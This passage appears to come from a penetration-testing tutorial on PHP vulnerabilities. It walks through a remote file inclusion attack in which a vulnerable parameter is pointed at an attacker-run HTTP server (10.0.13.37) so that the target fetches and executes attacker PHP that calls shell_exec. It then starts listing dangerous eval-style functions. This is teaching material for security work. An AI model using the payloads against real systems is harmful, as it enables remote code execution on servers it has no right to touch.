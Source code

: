 This code does not only allow us to include files from the target server (LFI), it also allows us to include files from a remote server (RFI).

Let's assume our own machine has the IP address `10.0.13.37`. 

For this to work we should have an HTTP server running on our machine. Kali comes pre-installed with `apache2`, but you can also start an **instant HTTP server with python3**:

```bash
sudo python3 -m http.server 80
```

With the above PHP code we can just do the following:

```default
http://vulnserver.example/vuln.php?path=http://10.0.13.37
```

This would cause the PHP server to try and include the remote file: `http://10.0.13.37/example.php`

Our HTTP server will log the failed request reaching us from the target server:

```default
[08/Mar/2021 22:52:03] "GET /example.php HTTP/1.1" 404 -
```

This means we can create `example.php` in our own HTTP server root directory and put some PHP code in it:

Our `example.php`:

```php
<?php echo '<pre>' . shell_exec('hostname') . '</pre>';?>
```

Now if we visit the url again, then the code in our `example.php` file gets included and executed:

```default
http://vulnserver.example/vuln.php?path=http://10.0.13.37
```

Your browser prints:
```php
vulnserver
```
The result of the `hostname` command in our PHP file.

For more tricks and details see: [PayloadsAllTheThings: RFI Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-rfi)


## Unsafe eval()

> If eval() is the answer, you're almost certainly asking the wrong question. -- Rasmus Lerdorf

The `eval()` function allows the execution of arbitrary PHP code.

```default
eval()                      - execute supplied string as PHP code
assert()                    - same as eval()
preg_replace('/.*/e',...)   - /e does an eval() on the match
```
